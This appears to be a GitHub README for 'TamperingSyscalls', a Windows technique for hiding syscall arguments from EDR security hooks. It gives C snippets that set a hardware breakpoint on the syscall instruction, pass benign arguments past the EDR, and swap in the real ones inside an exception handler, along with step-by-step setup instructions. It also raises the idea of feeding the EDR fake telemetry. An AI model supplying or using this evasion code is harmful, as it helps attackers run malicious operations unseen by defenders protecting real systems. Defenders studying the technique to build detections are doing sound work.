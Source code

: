 # TamperingSyscalls

**Tampering with syscalls.** 

1. Set a hardware breakpoint on the address of a syscall instruction which has the bytes `0f05` on the Dr0 register.
We can locate the stub with this quick memory byte search.
```c
BYTE stub[] = { 0x0F, 0x05 };
	for( unsigned int i = 0; i < (unsigned int)25; i++ )
	{
		if( memcmp( (LPVOID)((DWORD_PTR)function + i), stub, 2 ) == 0 ) {
			return (LPVOID)((DWORD_PTR)function + i);
		}
	}
  ```
2. Make a call to this function with no arguments. The EDR will return us the SSN as our call is not malicious.
3. The EDR then returns flow to us. 
4. We then hit our syscall breakpoint where we enter our previously registered exception handler.
```c
SetUnhandledExceptionFilter( OneShotHardwareBreakpointHandler );
```
5. This exception handler will disable the hardware breakpoint for Dr0 only if the Dr0 and RIP match.
6. If it is matching, it'll switch on the StatePointer, and get the corresponding arguments for this function.
7. It will then fix the arguments into the register, and stack.
```c
switch( StatePointer ) {
case 0:
ExceptionInfo->ContextRecord->Rcx =
  (DWORD_PTR)((NtGetContextThread*)(StateArray[StatePointer].arguments))->ThreadHandle;
  ExceptionInfo->ContextRecord->Rdx =
	(DWORD_PTR)((NtGetContextThread*)(StateArray[StatePointer].arguments))->pContext;
// put your other states here.
```

## Howto
You need to implement your function arguments and setup the state.
For example the arguments for NtGetContextThread in a structure.
```c
typedef struct {
	HANDLE			ThreadHandle;
	PCONTEXT		pContext;
} NtGetContextThread;
```
Then make a global copy
```c
NtGetContextThread pNtGetThreadContext;
```
Then add this to the state array in the position we will be calling it
```c
{ 0 , &pNtGetThreadContext},
```
Then in the exception handler you need to fix arguments for the corresponding function. 

It's possible to provide the EDR with fake telemetry, but that would take away the focus of what is being achieved here. I leave that to another day or a blog post.
